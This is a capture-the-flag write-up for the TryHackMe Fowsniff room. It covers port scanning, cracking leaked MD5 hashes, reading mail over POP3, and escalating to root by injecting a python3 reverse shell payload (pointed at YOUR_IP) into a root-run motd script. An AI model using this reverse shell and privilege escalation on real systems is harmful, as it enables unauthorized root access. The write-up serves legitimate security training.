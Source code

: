 Room: [Fowsniff CTF](https://tryhackme.com/room/ctf)

Difficulty: Easy

Overview: On-going project

------------------------------------------------------------------------------------------------------------------------------------------------------------------

We will start by enumerating all open ports on the remote system and to do so we can use “nmap”:

```
nmap -sV -sC -p- fowsniff.thm -oN nmap.txt

-sV         → Probe open ports to determine service
-sC         → Scan using the default set of scripts
-p-          → Scan all ports
fowsniff.thm  → ip address of the room (added the ip to /etc/hosts and named it)
-oN         → Save the ouput of the scan in a file
```

![image](https://user-images.githubusercontent.com/76821053/166565008-389610f8-322e-4664-863a-c1e9ec04125c.png)

There are four open ports on the system:

22 → OpenSSH 7.2p2 Ubuntu

80 → Apache httpd 2.4.18

110 → Dovecot pop3d

143 → Dovecot imapd

Since there is an apache webserver running in the system we can use "Gobuster" to search for hidden directories or files in http servers:

![image](https://user-images.githubusercontent.com/76821053/166566478-31c90dd0-f9fa-49b7-ad12-2373e6c3f384.png)

When analysing the results "Gobuster" found a security.txt file that we can access.

![image](https://user-images.githubusercontent.com/76821053/166566690-190a443c-07cf-4192-ad14-1106a39b6ef5.png)

This server was hacked by BigN1nj4! who left a teaser on the website.

Now, the room gave us a hint to look for information in google. A little later i found that the hacker leaked information on [PASTEBIN](https://pastebin.com/NrAqVeeX).

![image](https://user-images.githubusercontent.com/76821053/166566743-734f9fb9-bd15-4b67-b918-d7f297bac6ed.png)

He leaked email passwords dumped from their databases. The hashes are encrypted in MD5 and to decrypt them we can use sites like [hashkiller](https://hashkiller.io/listmanager) or [hashes.com](hashes.com/en/decrypt/hash).

![image](https://user-images.githubusercontent.com/76821053/166566776-080788b0-f88a-4eae-909f-708dbb0381ec.png)

msfconsole 

![image](https://user-images.githubusercontent.com/76821053/166566786-731828e6-2214-475f-bbf0-2250f6651b5b.png)

![image](https://user-images.githubusercontent.com/76821053/166566802-9c2d140a-4738-43ac-b074-b1961c60ea39.png)

![image](https://user-images.githubusercontent.com/76821053/166566824-ba1078f4-2aa8-42fd-9d09-88b61cd8b0df.png)

I have accessed the pop3 service mail through telnet:

In this website you information about commands https://www.shellhacks.com/retrieve-email-pop3-server-command-line/

![image](https://user-images.githubusercontent.com/76821053/166566847-a75b12cc-aff6-426a-9a04-a431d03db427.png)

Found ssh credentials.

These credentials pertains to backsteen.

![image](https://user-images.githubusercontent.com/76821053/166566877-f6437936-4876-428f-b5bd-d136916aa6cf.png)

ls


Enumerating the system i searched for any files that can be run by that group users:

```
find / -group users -type f -exec ls -la {} 2>/dev/null \;

```

![image](https://user-images.githubusercontent.com/76821053/166566901-07448446-f980-4184-ba6a-20aae12e5dd0.png)

Found that users group have read/write permissions of a bash script called cube.sh.

![image](https://user-images.githubusercontent.com/76821053/166566918-dfa97f58-bc9f-43d9-81de-23cb4398adbc.png)

After reading the contents of cube.sh we can recognize that this prints the motd (message of the day) that we receive after loggin in through ssh.

If we check the directory /etc/update-motd.d/ and look into the executables, the file “00-header” runs the cube.sh script with root permissions.

![image](https://user-images.githubusercontent.com/76821053/166566946-76373e54-79b5-48c1-bd7b-3e12788de657.png)

Since we have group permissions to write cube.sh script we can try and get a reverse shell by including a python3 reverse shell payload.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Pay attention to the syntax because you need to make a little change. Your ip will be between comas.

![image](https://user-images.githubusercontent.com/76821053/166566976-9d18124e-a0e7-41d2-b4c4-a40a231f04a8.png)

We need to setup a netcat listener and restart the ssh connection to trigger the motd welcome message and it will run our reverse shell.

![image](https://user-images.githubusercontent.com/76821053/166567250-877a7eed-83b5-4f6a-b846-c0b351b966a6.png)

Success we are now root!!

Just for proof of concept we can print the root flag!

![image](https://user-images.githubusercontent.com/76821053/166567045-7163c720-eba6-496b-bfaf-8e3d8667c762.png)









